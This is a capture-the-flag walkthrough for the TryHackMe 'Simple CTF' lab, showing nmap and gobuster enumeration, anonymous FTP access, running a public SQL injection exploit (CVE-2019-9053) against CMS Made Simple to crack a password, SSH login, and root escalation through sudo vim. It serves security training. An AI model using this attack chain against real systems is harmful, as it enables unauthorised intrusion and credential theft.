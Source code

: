 # Simple CTF [THM](https://tryhackme.com/room/easyctf)

Let see what's running on this machine 

```bash
nmap -sV -A -Pn 10.10.219.139

Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2020-12-25 23:33 GMT
Nmap scan report for 10.10.219.139
Host is up (0.027s latency).
Not shown: 997 filtered ports
PORT     STATE SERVICE VERSION
21/tcp   open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: TIMEOUT
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.11.21.99
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 1
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-robots.txt: 2 disallowed entries 
|_/ /openemr-5_0_1_3 
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 29:42:69:14:9e:ca:d9:17:98:8c:27:72:3a:cd:a9:23 (RSA)
|   256 9b:d1:65:07:51:08:00:61:98:de:95:ed:3a:e3:81:1c (ECDSA)
|_  256 12:65:1b:61:cf:4d:e5:75:fe:f4:e8:d4:6e:10:2a:f6 (ED25519)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 45.05 seconds
```

### 1. How many services are running under port 1000?
2

### 2. What is running on the higher port?
ssh

  
---
  

We know know that we have SSH, HTTP and FTP on this machine.
Let see what we can retrieve while checking for services. 

```bash
ftp 10.10.219.139
Connected to 10.10.219.139.
220 (vsFTPd 3.0.3)
Name (10.10.219.139:clobee): anonymous
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.

ftp> ls -ail
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x    3 ftp      ftp          4096 Aug 17  2019 .
drwxr-xr-x    3 ftp      ftp          4096 Aug 17  2019 ..
drwxr-xr-x    2 ftp      ftp          4096 Aug 17  2019 pub
226 Directory send OK.

ftp> cd pub
250 Directory successfully changed.

ftp> ls -ail
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x    2 ftp      ftp          4096 Aug 17  2019 .
drwxr-xr-x    3 ftp      ftp          4096 Aug 17  2019 ..
-rw-r--r--    1 ftp      ftp           166 Aug 17  2019 ForMitch.txt
226 Directory send OK.

ftp> get ForMitch.txt
local: ForMitch.txt remote: ForMitch.txt
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for ForMitch.txt (166 bytes).
226 Transfer complete.
166 bytes received in 0.00 secs (964.9368 kB/s)

ftp> exit
221 Goodbye.
```

```bash
cat ForMitch.txt 
Dammit man... you'te the worst dev i've seen. You set the same pass for the system user, and the password is so weak... i cracked it in seconds. Gosh... what a mess!
```

Using Gobuster we were able to discover few folders

```bash
gobuster dir -u http://10.10.219.139:80 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt 

/simple (Status: 301)
```
```bash
gobuster dir -u http://10.10.219.139:80/simple -w /usr/share/wordlists/dirb/common.txt -x .bak, .sql, .log

/.hta (Status: 403)
/.hta. (Status: 403)
/.hta.bak (Status: 403)
/.htaccess (Status: 403)
/.htaccess.bak (Status: 403)
/.htaccess. (Status: 403)
/.htpasswd (Status: 403)
/.htpasswd.bak (Status: 403)
/.htpasswd. (Status: 403)
/admin (Status: 301)
/assets (Status: 301)
/doc (Status: 301)
/index.php (Status: 200)
/lib (Status: 301)
/modules (Status: 301)
/tmp (Status: 301)
/uploads (Status: 301)
``` 

Visiting `http://10.10.219.139:80/simple` we know that we are working with CMSMadeSimple (maybe version 2.2.8).  

Let search the exploit database for any information about this CMS version

```bash
searchsploit cms made simple 2.2.8

----------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                       |  Path
----------------------------------------------------------------------------------------------------- ---------------------------------
CMS Made Simple < 2.2.10 - SQL Injection                                                             | php/webapps/46635.py
----------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

```bash
searchsploit -p 46635

  Exploit: CMS Made Simple < 2.2.10 - SQL Injection
      URL: https://www.exploit-db.com/exploits/46635
     Path: /usr/share/exploitdb/exploits/php/webapps/46635.py
File Type: Python script, ASCII text executable, with CRLF line terminators
```

```bash
searchsploit -m 46635

  Exploit: CMS Made Simple < 2.2.10 - SQL Injection
      URL: https://www.exploit-db.com/exploits/46635
     Path: /usr/share/exploitdb/exploits/php/webapps/46635.py
File Type: Python script, ASCII text executable, with CRLF line terminators

Copied to: /home/clobee/tmp/46635.py
```

### 4. What's the CVE you're using against the application?

```bash
head /home/clobee/tmp/46635.py

#!/usr/bin/env python
# Exploit Title: Unauthenticated SQL Injection on CMS Made Simple <= 2.2.9
# Date: 30-03-2019
# Exploit Author: Daniele Scanu @ Certimeter Group
# Vendor Homepage: https://www.cmsmadesimple.org/
# Software Link: https://www.cmsmadesimple.org/downloads/cmsms/
# Version: <= 2.2.9
# Tested on: Ubuntu 18.04 LTS
# CVE : CVE-2019-9053
```

### 5. To what kind of vulnerability is the application vulnerable?
SQL Injection (SQLI)


### 6. What's the password?

```bash
python 46635.py -u http://10.10.219.139:80/simple --wordlist=/usr/share/wordlists/rockyou.txt -c


[+] Salt for password found: 1dac0d92e9fa6bb2
[+] Username found: mitch
[+] Email found: admin@admin.com
[+] Password found: 0c01f4468bd75d7a84c7eb73846e8d96
[+] Password cracked: xxxxx
```

### 7. Where can you login with the details obtained?

The user found works for `http://simple_ctf.thm/simple/admin`
and also for SSH. 

This confirm what we found earlier during the FTP enumeration.

### 8. What's the user flag?

```bash
ssh mitch@10.10.219.139 -p 2222

The authenticity of host '[10.10.219.139]:2222 ([10.10.219.139]:2222)' can't be established.
ECDSA key fingerprint is SHA256:Fce5J4GBLgx1+iaSMBjO+NFKOjZvL5LOVF5/jc0kwt8.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '[10.10.219.139]:2222' (ECDSA) to the list of known hosts.
mitch@10.10.219.139's password: 
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.15.0-58-generic i686)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

0 packages can be updated.
0 updates are security updates.

Last login: Mon Aug 19 18:13:41 2019 from 192.168.0.190

$ id
uid=1001(mitch) gid=1001(mitch) groups=1001(mitch)

$ cat /home/mitch/user.txt                                                                                                             
xxxxx
```

### 9. Is there any other user in the home directory? What's its name?

```bash
$ ls /home                                                                                                                             
mitch  xxxx
```

### 10. What can you leverage to spawn a privileged shell?

```bash
$ sudo -l

User mitch may run the following commands on Machine:
    (root) NOPASSWD: /usr/bin/vim

$ sudo /usr/bin/vim -c ':!/bin/sh'
# id
uid=0(root) gid=0(root) groups=0(root)
```

### 11. What's the root flag?

```bash
# ls -ail /root/
total 28
1044482 drwx------  4 root root 4096 aug 17  2019 .
      2 drwxr-xr-x 23 root root 4096 aug 19  2019 ..
1044484 -rw-r--r--  1 root root 3106 oct 22  2015 .bashrc
 261530 drwx------  2 root root 4096 aug 17  2019 .cache
 261525 drwxr-xr-x  2 root root 4096 aug 17  2019 .nano
1044485 -rw-r--r--  1 root root  148 aug 17  2015 .profile
1044582 -rw-r--r--  1 root root   24 aug 17  2019 root.txt

# cat /root/root.txt
XXXXX
```
